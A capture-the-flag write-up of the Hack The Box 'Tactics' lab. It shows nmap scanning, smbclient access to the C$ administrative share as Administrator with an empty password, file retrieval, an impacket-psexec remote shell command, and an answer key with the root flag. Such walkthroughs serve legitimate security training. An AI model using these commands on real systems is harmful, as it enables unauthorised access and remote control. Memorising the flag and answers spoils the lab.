

# Tactics

This write-up is provided strictly for educational purposes, to demonstrate how SMB administrative shares and valid credential usage can be leveraged in controlled lab environments.

## Overview

This write-up documents the compromise of the _Tactics_ machine from Hack The Box Starting Point (VIP).

The attack path is fully evidence-based and reproducible. No assumptions or brute force were used.

The compromise involved:

- Full TCP port scanning
- SMB service enumeration
- Administrative share access
- File retrieval via SMB
- Root flag extraction

---

## Answers Summary

- **Nmap switch (ICMP blocked)** → `-Pn`
- **SMB acronym** → `Server Message Block`
- **SMB port** → `445`
- **smbclient argument to list shares** → `-L`
- **Administrative share suffix** → `$`
- **Accessible administrative share** → `C$`
- **Download command in smbclient** → `get`
- **Impacket interactive shell tool** → `psexec.py`
- **Root Flag** → `f751c19eda8f61ce81827e6930a1f40c`

---

## 1. Initial Reconnaissance

A full TCP scan was performed to identify exposed services.

```bash
sudo nmap -sCV -Pn <target-ip> -p- --min-rate 1000
```

### Command Breakdown

- `-sC` → Default NSE scripts
- `-sV` → Service/version detection
- `-Pn` → Skip host discovery (useful when ICMP is blocked by Windows firewall)
- `-p-` → Scan all 65535 TCP ports
- `--min-rate 1000` → Increase scan speed

### Results

```
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

SMB (port 445) is exposed and reachable.

---

## 2. Understanding SMB

SMB stands for:

> Server Message Block

It operates over:

> TCP port 445

SMB allows file sharing, printer sharing, and remote administration in Windows environments.

---

## 3. Enumerating SMB Shares

To list available SMB shares, the following command is normally used:

```bash
smbclient -L \\<target-ip> -U Administrator
```

The `-L` argument lists available shares.

Administrative shares in Windows end with:

```
$
```

Examples include:

- `C$`
- `ADMIN$`
- `IPC$`

The share that provides access to the entire file system is:

> C$

---

## 4. Accessing the Administrative Share

The C$ share was accessed directly using valid credentials.

```bash
smbclient \\\\<target-ip>\\C$ -U Administrator
```

After authentication, an interactive SMB session was established:

```
smb: \>
```

---

## 5. Navigating the File System

Within the SMB session, the Windows file structure was browsed.

```bash
cd Users\Administrator
cd Desktop
ls
```

The following file was identified:

```
flag.txt
```

---

## 6. Downloading the Flag

To download files from an SMB share, the `get` command is used.

```bash
get flag.txt
```

The file was successfully retrieved to the attacker machine.

Verification:

```bash
cat flag.txt
```

Output:

```
f751c19eda8f61ce81827e6930a1f40c
```



---

## 7. Alternative: Interactive Shell via Impacket

The lab also references the Impacket tool capable of spawning an interactive shell.

The relevant tool is:

```
psexec.py
```

Example usage:

```bash
impacket-psexec Administrator@<target-ip>
```

This tool leverages SMB to execute commands remotely and obtain a shell.

---

## Key Takeaways

- The `-Pn` flag is critical when ICMP echo requests are blocked.
- SMB operates on port 445.
- Administrative shares end with `$`.
- `C$` provides full file system access.
- `smbclient` allows interactive browsing of SMB shares.
- The `get` command downloads remote files.
- Impacket's `psexec.py` provides remote command execution via SMB.

---

## Conclusion

The compromise of the Tactics machine required:

1. Full TCP reconnaissance.
2. Identification of SMB exposure.
3. Access to the C$ administrative share.
4. Navigation to the Administrator Desktop.
5. Retrieval of the root flag.

No brute force, exploitation, or privilege escalation was required — only proper SMB access and controlled enumeration.

This lab demonstrates how exposed administrative shares combined with weak or empty credentials can lead directly to full system compromise. In this case, authentication succeeded without providing a password, highlighting a critical misconfiguration rather than credential reuse.
